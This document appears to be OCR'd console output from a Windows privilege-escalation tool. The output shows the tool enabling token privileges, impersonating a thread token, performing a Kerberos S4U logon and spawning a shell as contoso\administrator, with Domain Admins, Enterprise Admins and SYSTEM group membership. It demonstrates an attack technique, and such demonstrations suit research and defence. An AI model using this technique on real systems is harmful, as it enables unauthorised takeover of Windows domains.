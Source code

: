 ```
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[+] SeIncreaseQuotaPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 2660
[+] Impersonation is successful.
[>] Trying to Kerberos S4U logon.
[+] S4U logon is successful.
[>] Trying to create a token assigned process.

Microsoft Windows [Version 10.0.18362.175]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Tools>whoami
contoso\administrator

C:\Tools>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                     Type             SID                                          Attributes
============================================== ================ ============================================ ===============================================================
Everyone                                       Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                  Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                         Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                           Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users               Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                 Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SYSTEM                            Well-known group S-1-5-18                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\LOCAL SERVICE                     Well-known group S-1-5-19                                     Mandatory group, Enabled by default, Enabled group
CONTOSO\Group Policy Creator Owners            Group            S-1-5-21-3654360273-254804765-2004310818-520 Mandatory group, Enabled by default, Enabled group
CONTOSO\Domain Admins                          Group            S-1-5-21-3654360273-254804765-2004310818-512 Mandatory group, Enabled by default, Enabled group
CONTOSO\Schema Admins                          Group            S-1-5-21-3654360273-254804765-2004310818-518 Mandatory group, Enabled by default, Enabled group
CONTOSO\Enterprise Admins                      Group            S-1-5-21-3654360273-254804765-2004310818-519 Mandatory group, Enabled by default, Enabled group
Service asserted identity                      Well-known group S-1-18-2                                     Mandatory group, Enabled by default, Enabled group
CONTOSO\Denied RODC Password Replication Group Alias            S-1-5-21-3654360273-254804765-2004310818-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\System Mandatory Level         Label            S-1-16-16384
```
